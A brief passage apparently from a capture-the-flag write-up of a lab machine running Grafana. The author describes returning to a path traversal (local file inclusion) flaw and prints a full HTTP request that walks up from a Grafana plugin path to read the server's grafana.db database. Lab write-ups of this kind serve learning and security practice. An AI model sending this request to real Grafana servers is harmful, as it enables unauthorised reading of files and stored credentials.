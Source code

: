 ![Logged In](/assets/images/2022/11/Ambassador/LoggedInGrafana.png "Logged In")

I spent some time trying to find something in Grafana. Maybe I could use it to run some commands on the server. But I did not find anything. 

After a while, I went back to the LFI and used it to extract an SQLite database.

```http
GET /public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1
Host: target.htb:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect_to=%2F
Upgrade-Insecure-Requests: 1
```

